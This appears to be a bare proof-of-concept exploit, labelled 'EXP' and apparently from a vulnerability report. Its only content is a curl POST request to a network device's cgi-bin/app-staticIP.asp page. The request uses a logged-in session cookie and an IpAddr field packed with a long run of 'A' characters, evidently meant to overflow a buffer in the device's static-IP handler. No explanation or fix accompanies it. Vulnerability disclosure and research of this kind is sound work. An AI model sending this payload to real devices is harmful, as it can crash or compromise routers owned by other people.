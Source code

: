 EXP
---

    curl -i -s -k -X $'POST' \
        -H $'Host: device_IP' -H $'User-Agent: Mozilla/5.0 (X11; Linux
    x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' -H $'Accept:
    text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H
    $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate'
    -H $'Referer: http://device-ip/cgi-bin/app-staticIP.asp' -H
    $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length:
    500' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
        -b $'SESSIONID=valid_cookie; UID=username; PSW=password' \
        --data-binary
    $'hEntry0=-1&hEntry1=-1&hEntry2=-1&hEntry3=-1&hEntry4=-1&hEntry5=-1&hEntry6=-1&hEntry7=-1&hEntry8=-1&delete_flag=0&add_flag=1&staticNum=0&emptyEntry=0&tmpStartIp=192.168.2.33&tmpPoolCount=32&dhcpEthStart=192.168.2.33&dhcpEthEnd=32&ethSubnetMask=255.255.255.0&IpAddr=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&MACAddr=AA%3ABB%3ACC%3ADD%3AEE%3AFF'
    \
        $'http://device_ip/cgi-bin/app-staticIP.asp'